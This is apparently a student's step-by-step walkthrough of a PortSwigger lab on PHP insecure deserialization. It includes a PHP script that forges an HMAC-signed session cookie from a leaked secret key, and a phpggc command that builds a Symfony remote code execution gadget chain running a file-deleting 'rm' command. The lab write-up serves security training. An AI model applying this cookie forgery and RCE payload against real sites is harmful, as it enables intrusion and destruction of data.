 # Exploiting PHP deserialization with a pre-built gadget chain

## This lab has a serialization-based session mechanism that uses a signed cookie. It also uses a common PHP framework. Although you don't have source code access, you can still exploit this lab's [insecure deserialization](https://portswigger.net/web-security/deserialization) using pre-built gadget chains.

## To solve the lab, identify the target framework then use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, work out how to generate a valid signed cookie containing your malicious object. Finally, pass this into the website to delete the `morale.txt` file from Carlos's home directory.

## You can log in to your own account using the following credentials: `wiener:peter`

### HINT

```php
<?php
$object = "OBJECT-GENERATED-BY-PHPGGC";
$secretKey = "LEAKED-SECRET-KEY-FROM-PHPINFO.PHP";
$cookie = urlencode('{"token":"' . $object . '","sig_hmac_sha1":"' . hash_hmac('sha1', $object, $secretKey) . '"}');
echo $cookie;
?>
```

---

### step 1

login into your account
and send my-account to repater
![screenshot](./images/lab6_repeter_cookies.png)

### step2

select all cookies it will highligh in inspector
url encoding sig_hmac_shal

![screenshot](./images/lab6_url_encoding.png)

stpe 3
copy session id to decoder

![screenshot](./images/lab6_decode_session_token.png)

### step4

remove last 2 words from cookies and send request

![screenshot](./images/lab6_smfony_version_info.png)

### step5

inspect my-account source page

![screenshot](./images/lab6_source_code.png)

### step6

send request to repeter and find secret key

![screenshot](./images/lab6_secrect_key.png)

### step7

download phpgcc from github
execute below ccommand
`./phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64`

![screenshot](./images/lab6_phpggc.png)

### step8

### Hint given in the begining

make a php file
paste generated cookies into object
and paste secret key from above file
pasta and save

![screenshot](./images/lab6_php_code_and_execute.png)

### step9

paste generated cookies into repeter
and forword request

![screenshot](./images/lab6_php_genertated_cookies.png)

---

### step 10

check my account will show lab solved

![screenshot](./images/lab6_lab_solved.png)
